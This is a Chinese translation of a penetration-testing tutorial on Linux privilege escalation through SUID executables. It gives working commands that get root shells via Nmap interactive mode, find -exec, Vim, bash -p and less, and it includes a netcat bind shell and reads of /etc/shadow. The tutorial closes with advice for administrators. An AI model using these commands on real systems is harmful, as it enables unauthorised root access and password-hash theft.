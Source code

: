 > 原文链接: https://www.anquanke.com//post/id/86979 


# 【安全科普】Linux提权——利用可执行文件SUID


                                阅读量   
                                **562788**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：pentestlab.blog
                                <br>原文地址：[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t0195cc5e80be0583d4.png)](https://p2.ssl.qhimg.com/t0195cc5e80be0583d4.png)

****

译者：[shan66](http://bobao.360.cn/member/contribute?uid=2522399780)

预估稿费：90RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**SUID**

**SUID**（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。那么，为什么要给Linux二进制文件设置这种权限呢？其实原因有很多，例如，程序ping需要**root权限**才能打开网络套接字，但执行该程序的用户通常都是由普通用户，来验证与其他主机的连通性。

但是，如果某些现有的二进制文件和实用程序具有SUID权限的话，就可以在执行时将权限提升为root。其中，大家熟知的具有提权功能的Linux可执行文件包括：



```
Nmap
Vim
find
Bash
More
Less
Nano
cp
```

以下命令可以找到正在系统上运行的所有SUID可执行文件。准确的说，这个命令将从/目录中查找具有SUID权限位且属主为root的文件并输出它们，然后将所有错误重定向到/dev/null，从而仅列出该用户具有访问权限的那些二进制文件。



```
find / -user root -perm -4000 -print 2&gt;/dev/null
find / -perm -u=s -type f 2&gt;/dev/null
find / -user root -perm -4000 -exec ls -ldb `{``}` ;
```

[![](https://p1.ssl.qhimg.com/t01e0e384b8771a459b.png)](https://p1.ssl.qhimg.com/t01e0e384b8771a459b.png)

查找SUID可执行文件

以上所有二进制文件都将以root用户权限来执行，因为它们的权限中包含“s”，并且它们的属主为root。



```
ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 2008-04-08 10:04 /usr/bin/nmap
```

[![](https://p3.ssl.qhimg.com/t01cbb7700c4a74c167.png)](https://p3.ssl.qhimg.com/t01cbb7700c4a74c167.png)

SUID可执行文件——Nmap

**<br>**

**Nmap**

较旧版本的Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令。由于Nmap位于上面使用root权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的shell。

```
nmap -V
```

[![](https://p3.ssl.qhimg.com/t010e6cc4a62dfc5615.png)](https://p3.ssl.qhimg.com/t010e6cc4a62dfc5615.png)

识别Nmap的版本

为了启动交互模式，可以使用Nmap参数“interactive”。

[![](https://p5.ssl.qhimg.com/t0124e95cdae4dfac10.png)](https://p5.ssl.qhimg.com/t0124e95cdae4dfac10.png)

Nmap——交互模式

以下命令将提供一个提权后的shell。



```
nmap&gt; !sh
sh-3.2# whoami
root
```

[![](https://p1.ssl.qhimg.com/t0106b52251f77c18e5.png)](https://p1.ssl.qhimg.com/t0106b52251f77c18e5.png)

通过Suid Nmap二进制文件获得Root Shell

此外，还有一个Metasploit模块，也可以通过SUID Nmap二进制文件进行提权。



```
exploit/unix/local/setuid_nmap
```

**<br>**

**Find**

实用程序find用来在系统中查找文件。同时，它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。



```
touch pentestlab
find pentestlab -exec whoami ;
```

[![](https://p2.ssl.qhimg.com/t01e941a9fcd987eb16.png)](https://p2.ssl.qhimg.com/t01e941a9fcd987eb16.png)

Find执行命令的功能

由于大多数Linux操作系统都安装了netcat，因此可以将提权后的命令提升为root shell。

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh ;
```

[![](https://p3.ssl.qhimg.com/t01e1da281f98c55f0d.png)](https://p3.ssl.qhimg.com/t01e1da281f98c55f0d.png)

通过Find运行Netcat

连接到打开的端口就能得到一个root shell。



```
netcat 192.168.1.189 5555
id
cat /etc/shadow
```

[![](https://p3.ssl.qhimg.com/t017347f10dca99cc20.png)](https://p3.ssl.qhimg.com/t017347f10dca99cc20.png)

通过Find取得Root Shell

**<br>**

**Vim**

Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

```
vim.tiny /etc/shadow
```

[![](https://p5.ssl.qhimg.com/t0168d08a653a986d57.png)](https://p5.ssl.qhimg.com/t0168d08a653a986d57.png)

Vim ——以root权限读取文件

此外，我们还可以通过Vim运行shell来执行只有root才能完成的操作。



```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

[![](https://p5.ssl.qhimg.com/t017bc2b9e078c1a810.png)](https://p5.ssl.qhimg.com/t017bc2b9e078c1a810.png)

Vim——Root Shell

**<br>**

**Bash**

以下命令将以root身份打开一个bash shell。



```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

[![](https://p1.ssl.qhimg.com/t01e7562e3240087d02.png)](https://p1.ssl.qhimg.com/t01e7562e3240087d02.png)

Bash——Root Shell

**<br>**

**Less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。  



```
less /etc/passwd
!/bin/sh
```

[![](https://p2.ssl.qhimg.com/t01a787c9a569c36319.png)](https://p2.ssl.qhimg.com/t01a787c9a569c36319.png)

Less——Root Shell

**<br>**

**结束语**

由于通过误设SUID的可执行文件可以轻而易举的实现提权，因此，管理员应仔细审查所有SUID二进制文件，看看到底是否真的需要使用提权后运行。在这个审查过程中，应该特别关注能够在系统上执行代码或写入数据的那些应用程序。

